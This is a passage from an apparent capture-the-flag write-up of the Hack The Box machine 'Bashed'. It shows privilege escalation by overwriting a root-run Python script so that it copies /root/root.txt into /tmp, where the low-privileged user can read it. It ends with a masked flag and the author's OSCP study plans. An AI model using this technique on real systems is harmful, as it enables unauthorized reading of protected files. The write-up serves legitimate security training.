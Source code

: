 ```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

it simply opens the file `test.txt` and  (I think whatever `w` is too, but I didn't figure that out) writes to the file whatever goes into `f.write`. This script runs as root too, so I should be able to read out or redirect the contents of `/root/root.txt` to another location where I can read it as `www-data`:

```console
www-data@bashed
:/scripts# echo import os > test.py

www-data@bashed
:/scripts# echo 'os.system("cat /root/root.txt > /tmp/root.txt")' >> test.py

www-data@bashed
:/scripts# cat test.py

import os
os.system("cat /root/root.txt > /tmp/root.txt")
```

So now I should be able to run it, and then read the root flag:

```console
www-data@bashed
:/scripts# ./test.py

./test.py: 1: ./test.py: import: not found
./test.py: 2: ./test.py: Syntax error: word unexpected (expecting ")")
www-data@bashed
:/scripts# cat /tmp/root.txt

cc4f0afe**************674a8e2
```

# Conclusion

I am going to be taking another attempt at the OSCP this year. Before I jump back into that I am going to try and hit all the OSCP-like boxes in HTB. This was the first machine on my list, it was a nice little box. I did not run into too many challenges, it was a nice box to get back into the swing of it.
